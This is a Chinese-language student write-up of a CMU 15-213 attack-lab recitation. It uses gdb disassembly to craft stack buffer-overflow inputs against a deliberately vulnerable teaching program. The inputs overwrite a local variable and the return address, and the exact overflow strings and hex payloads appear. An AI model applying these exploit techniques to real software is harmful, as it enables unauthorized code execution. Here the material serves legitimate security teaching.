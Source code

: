 ```yaml
---
title: Attack lab recitation
categories:
  - 系统入门
date: 2024-02-29 17:20:40
tags:
  - x86汇编
  - 逆向工程
lastmod: 2025-03-19T14:52:18+08:00
series:
  - 15-213
authors:
  - Salvely
seriesNavigation: true
enableLastMod: true
enableWordCount: true
enableReadingTime: true
toc:
  enable: true
  auto: false
code:
  maxShownlines: 100
---
```


输入`gdb activity`，开启 activity 之旅。

> Objective: The goal of this activity is to input a string that causes the program to call win(0x15213),
> and thereby win a cookie.
> 在开启之前，先查看一下`solve`函数的内容：

```c
void solve(void) {
    volatile long before = 0xb4;
    char buf[16];
    volatile long after = 0xaf;

    Gets(buf);

    if (before == 0x3331323531) {
        win(0x15213);
    }

    if (after == 0x3331323831) {
        win(0x18213);
    }
}
```

看一下`solve`的汇编代码：

```
(gdb) disas solve
Dump of assembler code for function solve:
   0x00000000000011df <+0>:     endbr64
   0x00000000000011e3 <+4>:     sub    $0x38,%rsp
   0x00000000000011e7 <+8>:     movq   $0xb4,0x28(%rsp)
   0x00000000000011f0 <+17>:    movq   $0xaf,0x8(%rsp)
   0x00000000000011f9 <+26>:    lea    0x10(%rsp),%rdi
   0x00000000000011fe <+31>:    callq  0x1279 <Gets>
   0x0000000000001203 <+36>:    mov    0x28(%rsp),%rdx
   0x0000000000001208 <+41>:    movabs $0x3331323531,%rax
   0x0000000000001212 <+51>:    cmp    %rax,%rdx
   0x0000000000001215 <+54>:    je     0x1230 <solve+81>
   0x0000000000001217 <+56>:    mov    0x8(%rsp),%rdx
   0x000000000000121c <+61>:    movabs $0x3331323831,%rax
   0x0000000000001226 <+71>:    cmp    %rax,%rdx
   0x0000000000001229 <+74>:    je     0x123c <solve+93>
   0x000000000000122b <+76>:    add    $0x38,%rsp
   0x000000000000122f <+80>:    retq
   0x0000000000001230 <+81>:    mov    $0x15213,%edi
   0x0000000000001235 <+86>:    callq  0x1169 <win>
   0x000000000000123a <+91>:    jmp    0x1217 <solve+56>
   0x000000000000123c <+93>:    mov    $0x18213,%edi
   0x0000000000001241 <+98>:    callq  0x1169 <win>
   0x0000000000001246 <+103>:   jmp    0x122b <solve+76>
End of assembler dump.
```

函数给`solve`预留了 56 个字节的空间：

1. `before = 0xb4`移动到`%rsp + 40`处
2. `after = 0xaf`移动到`%rsp + 8`处
3. `%rdi = %rsp + 16`
4. 调用`gets`
5. `%rdx = *(%rsp + 40)`，把`before`赋给`%rdx`
6. `%rax = $0x3331323531`
7. 接下来是个判断：

```c
if(rdx == rax) {
    edi = 0x15213;
    callq win
}
rdx = *(rsp + 8);
rax = 0x3331323831;
if(rdx == rax) {
  edi = 0x18213;
  callq win;
}
rsp += 40;
return;
```

完成`gets`之前的调用后，栈分布大致如下（一共 56 个字节的分配）：

1. `rsp`处没有值
2. `rsp + 8`处存储`after = 0xaf`
3. `rsp + 16 ~ rsp + 24`处存储 16 字节的`buf`
4. `rsp + 32`处 8 个字节空闲
5. `rsp + 40`处存储`before = 0xb4`
6. `rsp + 56`处存储的是调用`solve`的`return address`

### 普通缓冲区溢出

查看代码可以理解，要让程序调用`win(0x15213)`，需要让`rdx == 0x3331323531`，而在这之前`rdx = before`，所以我们的根本目的是让`before = 0x3331323531`。就得让`buf`前 24 个字节为 0，后八个字节等于`0x3331323531`。该机器为小端法机器，那么这 8 个字节从低地址到高地址的顺序应该是：`0x31 0x35 0x32 0x31 0x33 0x00 0x00 0x00`，这 8 个个字节翻译成`ASCII码`就是`15213`。此外`gets`一定要读到`\n`字符，它会把`\n`替换为`\0`字符。它不是读到`\0`字符就终止。后面不需要加`0`，因为`0`的`ASCII`编码是`0x30`。如果最后加了 3 个`0`的话，最后 8 个字节的地址就会变成`0x31 0x35 0x32 0x31 0x33 0x30 0x30 0x30`。

> 有几条要注意的点：
>
> 1. 机器为小端法机器，写内存的时候要把数字倒过来
> 2. `0x00`是在 ASCII 码里面是空字符，`0x30`在 ASCII 码里面是`0`
> 3. `gets`要读到`\n`，他会把`\n`替换成`\0`存储在`buf`中，无需手动`\0`
> 4. 输入的时候只能输入字符串，而不能输入 10 进制或者 16 进制的值，如果函数没有调用`atoi`，输入一律被当作字符串处理。因此我们需要输入`0x3331323531`对应的`ASCII`编码，而不是这个值本身。

输入`01234567890123456789012315213`，成功调用`win(0x15213)`。如下：

```
gwen@gwen-virtual-machine:~/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src$ ./activity
01234567890123456789012315213
You win 1 cookie! Great start!
Returning normally from main
```

### 包含返回地址攻击的缓冲区溢出

要让这个`solve`函数跳转到我们插入的代码段（未开启栈随机化/`canary`/`NX bit`及其他防护机制，不考虑`nop sled`），我们需要利用缓冲区溢出，让`return address`修改为我们所插入的代码段的地址。我们需要让`buf`的前 40 个字节为任意内容，最后 8 个字节为我们插入的攻击代码的地址。

我们这次的目的是想调到`<solve +93>`位置处，本次运行过程中该位置的地址是`0x000055555555523c`，过会儿我们要将其插入`buf`的第 48-48 字节处。该地址的值换算成小端法是`0x3c 0x52 0x55 0x55 0x55 0x55 0x00 0x00`。其对应的`ASCII码`是`<RUUUU`，后面的`null`为`0x00`。我们要让程序返回的时候跳转到`mov $0x18213,%edi`。那么构造的字符串应该是`0123456789012345678901234567890123456789<RUUUU`。结果如下：

```
43          if (after == 0x3331323831) {
(gdb) n
solve () at activity.c:44
44              win(0x18213);
(gdb)
You win 2 cookies! Woohoo!
0x0000000000000000 in ?? ()
```

成功！

### 引导程序到攻击代码

此处我们进行更进阶的攻击，程序中函数`solve()`并未调用过`win(0x18613)`，让我们尝试返回到`win(0x18613)`中。此时我们不光只破解`solve()`，还需要对`win`函数的代码进行分析。结果如下：

```
(gdb) disas win
Dump of assembler code for function win:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     sub    $0x8,%rsp
   0x0000555555555171 <+8>:     cmp    $0x15213,%edi
   0x0000555555555177 <+14>:    je     0x5555555551a7 <win+62>
   0x0000555555555179 <+16>:    cmp    $0x18213,%edi
   0x000055555555517f <+22>:    je     0x5555555551b5 <win+76>
   0x0000555555555181 <+24>:    cmp    $0x18613,%edi
   0x0000555555555187 <+30>:    je     0x5555555551c3 <win+90>
   0x0000555555555189 <+32>:    mov    0x2ea1(%rip),%eax        # 0x555555558030 <mystery>
   0x000055555555518f <+38>:    cmp    $0x15513,%eax
   0x0000555555555194 <+43>:    je     0x5555555551d1 <win+104>
   0x0000555555555196 <+45>:    lea    0xed3(%rip),%rdi        # 0x555555556070
   0x000055555555519d <+52>:    callq  0x555555555030 <puts@plt>
   0x00005555555551a2 <+57>:    add    $0x8,%rsp
   0x00005555555551a6 <+61>:    retq
   0x00005555555551a7 <+62>:    lea    0xe5a(%rip),%rdi        # 0x555555556008
   0x00005555555551ae <+69>:    callq  0x555555555030 <puts@plt>
   0x00005555555551b3 <+74>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551b5 <+76>:    lea    0xedc(%rip),%rdi        # 0x555555556098
   0x00005555555551bc <+83>:    callq  0x555555555030 <puts@plt>
   0x00005555555551c1 <+88>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551c3 <+90>:    lea    0xe5e(%rip),%rdi        # 0x555555556028
   0x00005555555551ca <+97>:    callq  0x555555555030 <puts@plt>
   0x00005555555551cf <+102>:   jmp    0x5555555551a2 <win+57>
   0x00005555555551d1 <+104>:   lea    0xe78(%rip),%rdi        # 0x555555556050
   0x00005555555551d8 <+111>:   callq  0x555555555030 <puts@plt>
   0x00005555555551dd <+116>:   jmp    0x5555555551a2 <win+57>
End of assembler dump.
```

我们需要跳转到`if(arg == 0x18613)`后面那句，也就是`<win+90>`处，该条指令的地址是`0x00005555555551c3`，转化成小端法是`0xc3 0x51 0x55 0x55 0x55 0x55 0x00 0x00`，转化成`ASCII码`也就是`ÃQUUUU`。因此，我们构造的字符串应该是`0123456789012345678901234567890123456789ÃQUUUU`。结果如下：

```
(gdb) p $rsp
$2 = (void *) 0x555555559018 <my_stack+4056>
(gdb) x/s 0x555555559018
0x555555559018 <my_stack+4056>: "ÃQUUUU"
(gdb) x/6bx 0x555555559018
0x555555559018 <my_stack+4056>: 0xc3    0x83    0x51    0x55    0x55    0x55
```

这里出现了一点问题，就是`Ã`采用`Unicode`扩展编码，其编码为`0xc3 0x83`，而我们仅仅需要`0xc3`，因此我们需要将 16 进制的地址写在文件里，然后用文件作为`activity`的输入。

[Slides 中最后一页](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f23/www/recitations/rec04_slides.pdf)告诉我们，提供了`hex2raw`脚本，可以把 16 进制值写到`input2.txt`中，然后通过`hex2raw`转化为`input2.bin`。我们在`input2.txt`中写入值`30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 31 35 32 31 33 00 30 31 32 33 34 35 36 37 38 39 c3 51 55 55 55 55`，将其转化，然后输入`./activity < ../inputs/input2.bin`。

结果如下：

```
(gdb) r < ../inputs/input2.bin
Starting program: /home/gwen/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src/activity < ../inputs/input2.bin
You win 3 cookies! That's right!

Program received signal SIGSEGV, Segmentation fault.
```

成功！

